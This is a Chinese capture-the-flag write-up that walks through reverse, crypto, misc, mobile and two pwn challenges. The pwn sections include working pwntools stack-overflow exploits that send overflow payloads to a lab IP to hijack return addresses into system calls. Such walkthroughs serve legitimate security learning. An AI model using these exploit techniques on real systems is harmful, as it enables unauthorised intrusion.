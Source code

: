 ```yaml
---
title: 记一次不知名比赛的WP
---
```

# Reverse

## Reverse_签到

找到main函数，就看到了flag

![image-20230620090120146](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620090120146.png)

# Crypto

## easily_Caesar

凯撒解码一把梭，key=24

![image-20230620094549028](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094549028.png)

# Misc

## medium_CTFvalues

16进制转文本得到unicode编码

![image-20230620094134558](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094134558.png)

unicode转ascii码得到base64字符串

![image-20230620094222386](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094222386.png)

![image-20230620094242228](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094242228.png)

base64解码得到一个字符串，然后ascii码转文本

![image-20230620094305264](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094305264.png)

## difficult_mobile_3

jadx打开然后全局搜索base64，找字符串后进行ascii转字符

![image-20230620121849142](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620121849142.png)

得到，把ip地址进行包裹提交

![image-20230620121956543](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620121956543.png)

# Pwn

## easily_pwn_1

程序分析：64位程序，之开启了NX保护

![image-20230620140607482](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620140607482.png)

代码分析：有一个read函数和write函数，可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。

![image-20230620140450114](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620140450114.png)

然后找是否存在后门函数

![屏幕截图 2023-06-20 140859](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20140859.png)

找到system函数的地址，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了

![屏幕截图 2023-06-20 141330](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20141330.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9002)
# io = process("./helloworld")
offset = 0x80 + 8

payload = offset*b'a' + p64(0x40059A)

io.sendline(payload)
io.interactive()
```

## medium_pwn_2

程序分析：32位程序，开启了32位保护

![image-20230620141634557](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620141634557.png)

代码分析：和pwn1一样，看到了read函数，判断存在栈溢出，

![image-20230620141720828](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620141720828.png)

又看到了system函数,但是少了'/bin/sh'

![image-20230620141900964](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620141900964.png)

找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出

![image-20230620142144275](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620142144275.png)

![image-20230620142020421](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620142020421.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9006)
# io = process("./helloworld")
offset = 0x88 + 4

payload = offset*b'a' + p32(0x0804845C) + p32(0x0804A024) 

io.sendline(payload)
io.interactive()
```
